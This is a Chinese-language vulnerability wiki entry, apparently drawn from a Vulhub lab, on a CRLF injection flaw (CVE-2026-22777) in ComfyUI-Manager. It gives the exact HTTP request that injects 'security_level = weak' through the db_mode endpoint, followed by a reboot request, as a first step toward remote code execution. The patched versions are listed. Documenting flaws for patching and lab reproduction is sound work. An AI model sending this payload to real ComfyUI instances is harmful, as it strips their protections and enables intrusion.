




# ComfyUI-Manager 配置处理器 CRLF 注入漏洞 CVE-2026-22777

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 4 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 环境启动缺具体compose环境路径/文件，只有docker compose up命令
- version两个版本分支是自由文本，应结构化为独立范围与修复版本
- CVE-2025-67303是前置漏洞/关联链，不能作为本篇主编号
- 代码块缺语言；网络可达(--listen)前提应进入metadata

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

ComfyUI 是一款基于节点式工作流的 Stable Diffusion 专业图形界面，是开源 AI 绘画领域的核心项目之一。ComfyUI-Manager 是 ComfyUI 的官方扩展管理器，负责管理自定义节点、模型和更新的安装。

[CVE-2025-67303](https://github.com/vulhub/vulhub/tree/master/comfyui/CVE-2025-67303) 揭示了 ComfyUI-Manager 将配置存储在未受保护的 `user/default/ComfyUI-Manager/` 目录下，攻击者可通过 ComfyUI 的 `/userdata/`API 直接读写 `config.ini` 以降级 `security_level` 并实现远程代码执行。v3.38 版本通过将配置数据迁移到受保护的 `__manager` 目录修复了此问题，使配置文件无法再通过 `/userdata/`API 访问。

然而，这一修复并不完整。在 3.39.2 之前的版本（以及 4.0.0 至 4.0.4 版本）中，`write_config()` 函数在将用户提供的值写入 `config.ini` 文件时，未对 CRLF 字符进行过滤。虽然通过 `/userdata/`API 的旧利用方式已经失效，但攻击者仍可在 ComfyUI-Manager 自身的配置接口（如 `/api/manager/db_mode`）的 HTTP 查询参数中注入回车符（`\r`）或换行符（`\n`），从而向配置文件中写入任意键值对。攻击者可以借此篡改安全关键设置，例如将 `security_level` 从 `normal` 降级为 `weak`，进而通过与 CVE-2025-67303 相同的攻击链实现远程代码执行。利用此漏洞需要 ComfyUI 实例可通过网络访问（即使用 `--listen` 选项启动）。

参考链接：

- https://github.com/Comfy-Org/ComfyUI-Manager/security/advisories/GHSA-562r-8445-54r2
- https://nvd.nist.gov/vuln/detail/CVE-2026-22777

## 漏洞影响

```
ComfyUI-Manager < 3.39.2, 4.0.0 - 4.0.4
```

## 环境搭建

Vulhub 执行如下命令启动 ComfyUI-Manager 3.39.1 漏洞环境（CVE-2025-67303 已修复，但 CRLF 注入仍可利用）：

```shell
docker compose up -d
```

服务启动后，访问 `http://your-ip:8188` 即可看到 ComfyUI 的界面。




## 漏洞复现

首先，验证 CVE-2025-67303 的旧利用方式已失效——通过 `/userdata/`API 尝试读取配置文件会返回 404 响应，因为配置已迁移到受保护的 `__manager` 目录：

```http
GET /userdata/ComfyUI-Manager%2Fconfig.ini HTTP/1.1
Host: your-ip:8188
```




通过 CRLF 注入绕过安全限制，向 `/api/manager/db_mode` 接口发送请求。Payload 中的 `%0D` 是 URL 编码的回车符（`\r`），它会使 Python 的 `configparser` 将其后的内容作为新的配置项处理，从而将 `security_level = weak` 注入到配置文件中：

```http
GET /api/manager/db_mode?value=cache%0Dsecurity_level%20=%20weak HTTP/1.1
Host: your-ip:8188
```




注入完成后，向 `/api/manager/reboot` 接口发送请求重启 ComfyUI 服务，使新配置生效：

```http
GET /api/manager/reboot HTTP/1.1  
Host: your-ip:8188
```

`security_level` 被降级为 `weak` 后，后续的利用步骤（安装恶意自定义节点以实现远程代码执行）与 [CVE-2025-67303](https://github.com/vulhub/vulhub/tree/master/comfyui/CVE-2025-67303) 完全相同，请参考该环境的文档完成完整的 RCE 链。




## 漏洞修复

- 将组件 ComfyUI-Manager 升级至 4.0.5 及以上版本
- 将组件 ComfyUI-Manager 升级至 3.39.2 及以上版本


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
